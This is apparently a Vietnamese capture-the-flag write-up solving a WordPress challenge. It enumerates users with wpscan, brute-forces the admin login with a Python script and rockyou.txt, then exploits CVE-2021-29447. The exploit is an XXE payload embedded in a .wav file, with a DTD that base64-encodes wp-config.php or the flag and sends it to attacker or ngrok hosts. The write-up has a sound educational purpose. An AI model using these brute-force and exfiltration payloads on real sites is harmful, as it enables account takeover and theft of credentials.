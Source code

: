 # KCSC BLOG

## Solution

Chall này liên quan đến WordPress, loay hoay trên web một lúc mình tìm thấy trang login và đồng thời có hint weak password. Điều này cho thấy để đăng nhập được ta cần làm theo hướng brute force chứ không phải sqli. Trước tiên ta sẽ dùng wpscan tool để tìm các user .

Command : wpscan --url http://18.142.106.71/ --enumerate u

![img](img/img10.png)

Ta có hai user đó là *khaidang* và *dsmile* và lại kết hợp với hint ` Hãy quan tâm đến DangKhai` nên user admin sẽ là *khaidang* công việc tiếp theo đó là bruteforce password của user này .

```
import requests

url = "http://18.142.106.71/wp-login.php"

words = open('rockyou.txt','r').read().split('\n')

for pwd in words:
	print(pwd)
	data = {'log':'khaidang','pwd':'{}'.format(pwd),'wp-submit':'Log+In','redirect_to':'http%3A%2F%2F18.142.106.71%2Fwp-admin%2F&testcookie=1'}

	res = requests.post(url, data)
	if "The password you entered for the username"  not in res.text and pwd != '':
		print('Password is ' + pwd)
		break
```

![img](img/img11.png)

Sau khi đăng nhập vào trang admin, ta sẽ chú ý đến phần comment và tại đây có một vài comment được post lên và để ý có cả những comment xss tuy nhiên mình nghĩ nó mang tính lừa lọc cao . Mất một lúc không ra hướng mình quyết định tìm hiểu và biết web đang dùng version 5.6 (bản cũ) và tất nhiên rồi tiếp theo sẽ xem nó có đang dính CEV nào không . 

Trong quá trình dạo qua web trong phần media có thấy một file xxe.wav được tạo sẵn ở đó và kết quả google cũng cho thấy bản 5.6-5.7 đang dính CEV liên quan đến XXE .(https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

Theo báo cáo thì có thể thấy lỗ hổng này xuất phát từ việc phân tích cú pháp XML xảy ra vấn đề dẫn đến các cuộc tấn công XXE làm rò rỉ các tệp nhạy cảm bằng phương pháp gọi đến các thực thể bên ngoài do attacker kiểm soát.

```
<!DOCTYPE myDoc [ <!ENTITY myExternalEntity SYSTEM "http://evil.com/script" > ]>
<myDoc>
    <foo>&myExternalEntity;</foo>
<myDoc>
```

WordPress có thư viện phương tiện cho phép người dùng đã xác thực tải lên các tệp phương tiện sau đó có thể được sử dụng trong các bài đăng trên blog của họ. Để trích xuất thông tin meta từ các tệp phương tiện này, ví dụ: tên hoặc tiêu đề nghệ sĩ,... ,WordPress sử dụng thư viện *getID3* . Một số siêu dữ liệu này được phân tích cú pháp ở dạng XML. Tại đây, một lỗ hổng XXE có thể xảy ra .

Cụ thể trong trường hợp này bằng cách tải lên một tệp .wav , ta có thể tiến hành attack XXE.

POC:

```
payload.wav:

RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker-url.domain/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>>

xxe.dtd:

<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker-url.domain/?%data;'>"> 
```

Đầu tiên tôi sẽ dựng một server bằng ngrok chứa file xxe.dtd:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=../flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://2ff1645a2a30.ngrok.io/?%data;'>"> 
```

Tiếp theo là tải lên file payload.wav (file này mk chỉ edit phần web attacker từ file xxe.wav có sẵn trên trang media) , sau khi tải thành công sẽ có một request bao gồm content file cần đọc gửi đến server .

![img](img/img12.png)

Decode base64 để lấy flag :

![img](img/img13.png)

## Flag

KCSC{oh_CVE-2021-29447_______:)} 

## Document

https://blog.sonarsource.com/wordpress-xxe-security-vulnerability





